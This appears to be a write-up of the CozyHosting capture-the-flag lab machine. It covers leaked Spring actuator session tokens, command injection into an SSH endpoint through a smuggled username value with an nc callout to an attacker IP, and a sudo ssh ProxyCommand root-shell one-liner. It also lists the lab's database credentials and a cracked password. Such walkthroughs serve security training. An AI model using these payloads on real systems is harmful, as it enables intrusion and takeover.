 # CozyHosting

Machine has open port http/80. 
No default logins possible, but whitelabel error page (e.g. http://cozyhosting.htb/asdf) indicated spring application.
Further enumeration of Spring application via directory scanning ([this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt)) showed that application leaks actuators.

## User flag
Spring actuators leak session tokens at http://cozyhosting.htb/actuator/sessions.
This allows to login without credentials, which gives access to the admin dashboard at http://cozyhosting.htb/admin.
The admin panel contains some functionality, to include hosts for automatic patching. 
The user can specify a hostname and a username and press submit. 
This data is sent to the endpoint http://cozyhosting.htb/executessh, which seems to run a system `ssh` command.
![img_2.png](img_2.png)

The application does not allow spaces in username/password but the following parameters trigger RCE on the server.
Please note, that `${IFS}` is used to avoid spaces because bash interprets `${IFS}` as spaces.
````
# Parameters for poof of concept RCE
host=localhost
username=a;echo${IFS}ab|nc${IFS}10.10.14.115${IFS}1234${IFS}|

# These parameters run the following command on the server:
echo ab | nc 10.10.14.115 1234
````

The python script [rce.py](rce.py) can be used to obtain a proper reverse shell.
The server stores the java application in a file `cloudhosting-0.0.1.jar`, which can be unzipped.
Searching in the obtained files revealed postgres database credentials:
![img.png](img.png)
We can login to the database with `postgres:Vg&nvzAQ7XxR` using the `psql` cli.

The database has stores a user table which contains hashed passwords.
They can be cracked via john the ripper and the wordlist `rockyou.txt` as followed:
![img_1.png](img_1.png)
The delivers the password `manchesterunited`, which can be used to login as user `josh` to obtain the users flag.



## System flag
The system flag was retrieved after inspecting `sudo -l` of user `josh`.
This indicated, that `josh` can run command `ssh` as root.
Thus, the following command drops a root shell (see gtfo bins): `sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
